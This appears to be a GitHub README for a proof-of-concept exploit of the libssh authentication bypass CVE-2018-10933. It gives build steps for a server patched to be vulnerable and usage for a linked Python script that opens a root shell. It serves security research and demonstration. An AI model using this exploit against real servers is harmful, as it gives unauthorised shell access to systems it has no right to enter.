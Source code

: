 # CVE-2018-10933 - Server-side Auth. Bypass
This is a simple Proof of Concept (PoC) to demonstrate successful
exploitation of the authentication-bypass vulnerability as found in
the server-side code of libssh 0.6 and later. See [Security Advisory for CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)
for more information.

## Vulnerable Server POC
In order to spawn and control a shell, the server code must somehow allow
several SSH requests such as `shell channel request`. Most implementations found
in the wild disallow them by checking the internal session's authentication
state. If the programmer insufficiently checked the authentication states, the
exploitation may be successful.

The [CVE-2018-10933-server.patch](CVE-2018-10933-server.patch) patch removes
checks for the authentication states in the `ssh_server_fork.c` example shipped
with libssh-0.7.4. See below for the patching instructions.

### Building the vulnerable server
```
$ wget https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz
$ tar -xvf libssh-0.7.4.tar.xz
$ cd libssh-0.7.4/
$ cd examples/
$ patch -p0 < CVE-2018-10933-server.patch
$ cd ..
$ mkdir -p build
$ cmake ..
$ make
```

### Running the vulnerable server
Here we're running the vulnerable SSH server to listen on localhost on port
tcp/2222:
```
$ cd examples/
$ sudo ./ssh_server_fork -p 2222 127.0.0.1
```

## Exploit
This repository includes a simple [exploit](CVE-2018-10933-SHELL-POC.py) code
written in Python that allow you to pass commands directly to the shell of a
vulnerable libssh server (see above for a vulnerable server implementation).

#### Prerequisites
 * Python 2.7 or 3.x
 * [Paramiko](http://www.paramiko.org/)

#### Usage
```
$ git clone https://github.com/e3prom/miscsec.git
$ cd CVE-2018-10933
$ python CVE-2018-10933-SHELL-POC.py --verbose -p 2222 127.0.0.1
[*] Type 'quit' to exit this command prompt.

$ id
uid=0(root) gid=0(root) groups=0(root),999(docker)
$ quit
```

## Disclaimer
As always, please check your local laws and regulation regarding the use of
this software. Do not use this exploit on a server without the owner's
consent and authorization.

## Credits
* The vulnerability has been discovered by Peter Winter-Smith of NCC Group.
* [CVE-2018-10933: libssh: authentication bypass in server code](https://seclists.org/oss-sec/2018/q4/55)
* [SoledaD208's CVE-2018-10933 very simple POC](https://github.com/SoledaD208/CVE-2018-10933)

